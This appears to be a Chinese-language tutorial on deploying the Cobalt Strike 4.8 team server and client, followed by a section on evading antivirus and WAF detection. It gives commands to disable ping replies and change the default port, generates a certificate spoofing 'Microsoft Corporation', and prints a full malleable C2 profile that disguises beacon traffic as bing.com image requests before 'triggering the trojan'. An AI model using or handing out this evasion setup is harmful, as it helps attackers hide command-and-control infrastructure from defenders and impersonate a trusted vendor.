 Cobalt Strike基于Java环境开发，所以如果要使用这个工具一定要安装Java环境。（工具的组成为服务端 + 客户端）

Cobalt Strike4.8

### 服务端  
启动Cobalt Strike需要JDK的支持，所以需要安装Java环境，如果服务端是kali，默认安装了java环境  
文件复制进linux服务器  
执行`ls -l` 查看TeamServer跟TeamServerImage是否有执行权限  
如果TeamServer跟TeamServerImage不具备x执行权限，执行如下命令添加执行权限  
`sudo chmod +x teamserver TeamServerImage`  
启动服务端：  
`sudo ./teamserver 192.168.80.146 cspasswd.9`  
这里填本机ip地址跟密码,默认端口为50050  

### 客户端  
windows运行客户端，也需要有JDK环境  
运行cobaltstrike-client.cmd文件  
输入对应服务端上设置的Host Port User Password  

![alt text](image/image-1.png)  
Alias：输入主机别名或使用默认值，不能为空或以*开头。  
Host：指定团队服务器的IP地址，不能为空  
Port：服务器的端口（默认为50050）  
User：你在团队服务器上的昵称，不能为空。  
Password：连接到服务器的密码  

第一次用连接到此团队服务器, 会弹出确认指纹  
Cobalt Strike将询问你是否识别此团队服务器的SHA256哈希,指纹校验的主要作用是防篡改  
点击是,连接登录到服务端并打开客户端用户界面

![alt text](image/image-2.png)  

![alt text](image/image-4.png)  

如果连接不上，查看服务端防火墙是否开启默认端口或者指定的端口  

Cobalt Strike将会记住这个SHA256哈希值,以便将来连接.可以通过Cobalt Strike -> Preferences -> Fingerprints 来管理这些哈希值。  


## 隐藏特征码-服务端(免杀手法之一)
##### 开启禁Ping动作:  
        命令: vim /etc/sysctl.con  
        添加一行: net.ipv4.icmp_echo_ignore_all = 1  
        刷新配置: sysctl -p  

##### 修改CS默认端口:  
        编辑teamserver文件: vim teamserver  
        修改port=50050为其他端口  
        如果有防火墙记得开放规则: ufw allow 19001

##### 修改CS默认证书:    
Cobalt Strike默认证书中含有与cs相关的特征，已经被waf厂商标记烂了，我们要重新生成一个新的证书，这里我们用JDK自带的keytool证书工具来生成新证书 

删除服务端Server目录下的cobaltstrike.store文件:  
`rm -rf cobaltstrike.store`   
利用keytool生成新的一个无特征的证书文件cobaltstrike.store  
    `keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias 360.com -dname "CN=Microsoft Windows, OU=MOPR, O=Microsoft Corporation, L=Redmond, ST=Washington, C=US"`  
    -keystore 生成的store名  
    -storepass 指定更改密钥库的储存口令  
    -keypass 指定更改条目的密钥口令  
    -genkey -keyalg RSA 指定算法  
    -alias 自定义别名  
    -dname 指定所有者信息  

证书生成完毕后，查看一下是否是新的证书内容
查看cs证书文件内容：`keytool -list -v -keystore cobaltstrike.store`   

修改teamserver文件里面的keyname.store,把里面的key文件名keyStore和key密码keyStorePassword改了  

同时建议修改teamserver中的keytool，防止证书被删除后自动生成默认证书。  
`keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias 360.com -dname "CN=Microsoft Windows, OU=MOPR, O=Microsoft Corporation, L=Redmond, ST=Washington, C=US`   

##### C2profile混淆流量:   
https://github.com/threatexpress/malleable-c2   
编辑c2.profile的内容如下，可自由修改部分内容:`vim c2.profile`    
        http-get {
            set uri "/image/";
            client {
                header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*l;q=0.8";
                header "Referer" "http://www.bing.com";
                header "Host" "www.bing.com";
                header "Pragma" "no-cache";
                header "Cache-Control" "no-cache";
                metadata {
                    netbios;
                    append ".jpg";
                    uri-append;
                }
            }

            server {
                header "Content-Type" "img/jpg";
                header "Server" "Microsoft-IIS/6.0";
                header "X-Powered-By" "ASP.NET";
                output {
                    base64;
                    print;
                }
            }
        }

        http-post {
            set uri "/email/";
            client {
                header "Content-Type" "application/octet-stream";
                header "Referer" "http://www.google.com";
                header "Host" "www.bing.com";
                header "Pragma" "no-cache";
                header "Cache-Control" "no-cache";
                id {
                    netbiosu;
                    append ".png";
                    uri-append;
                }
                output {
                    base64;
                    print;
                }
            }
            server {
                header "Content-Type" "img/jpg";
                header "Server" "Microsoft-IIS/6.0";
                header "X-Powered-By" "ASP.NET";
                output {
                    base64;
                    print;
                }
            }
        }

然后使用c2profile方式启动teamserver   
        sudo ./teamserver 192.168.2.96 passwd332 c2profile   

开启CS的监听，触发木马   
使用wireshark抓取数据包，查看流量特征是否被混淆   
发现请求改成了我们在c2profile中编写的URL、UA等信息时，则修改成功。   

##### nginx反向代理:   




杀毒软件查杀方式：特征码、动态查杀、云查杀  

免杀：隐藏特征码、配置Nginx反向代理  